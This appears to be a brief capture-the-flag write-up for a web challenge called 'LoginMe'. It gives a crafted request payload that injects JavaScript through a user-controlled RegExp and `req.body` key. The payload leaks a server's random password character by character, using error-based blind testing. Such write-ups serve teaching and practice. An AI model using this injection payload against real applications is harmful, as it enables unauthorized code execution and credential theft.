 # LoginMe

It's about inject to `new RegExp(#...#)` and `req.body[k]`


Since `password` column is generated by random string, and will re-random once server crash and restart. 
You have to extract the keys of object `this`.

```
username=bbbb
&|(if.*(").*\sreturn.*\s.*\s.*)|=$2;  this[Object.keys.call`${this}`[3]].charCodeAt`0` > 0x30 ? blah`` : 2 ; $2
```

Then blind the each character, if your condition is right, the server will throw an exception, then you got http error response 
(because of calling non-exists `blah` function)






